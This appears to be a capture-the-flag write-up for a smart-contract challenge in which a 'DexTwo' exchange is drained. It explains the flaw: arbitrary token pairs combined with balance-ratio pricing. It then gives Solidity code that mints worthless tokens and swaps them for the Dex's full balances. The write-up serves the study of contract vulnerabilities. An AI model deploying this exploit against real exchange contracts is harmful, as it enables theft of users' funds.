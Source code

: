 ### Goals

Steal all tokens from the Dex contract.

### Exploit

We can swap arbitrary tokens using `DexTwo::swap()`. In order to drain tokens we would need to create tokens that we will transfer to the Dex in exchange of tokens it is holding.

We will need to provide Dex with 1 token so the below function will return whole balance.

```code
 function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

### Code

Deploy contract in Remix

```code
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {DexTwo} from "./DexTwo.sol";

contract SampleERC20 is ERC20 {
    constructor(address _dexTwoInstance) ERC20("SampleERC20", "SERC20") {
        _mint(_dexTwoInstance, 1); // we need to topup Dex so getSwapAmount() does not return 0
        _mint(msg.sender, 1);
    }
}

contract DrainerTwo {
    DexTwo target;

    ERC20 a;
    ERC20 b;

    constructor(address _target) {
        target = DexTwo(_target);
        a = new SampleERC20(address(target));
        b = new SampleERC20(address(target));

        a.approve(address(target), 1);
        b.approve(address(target), 1);
    }

    function pwn() external {
        target.swap(address(a), target.token1(), 1);
        target.swap(address(b), target.token2(), 1);
    }
}
```

Deploy contract and call `pwn`

Done!
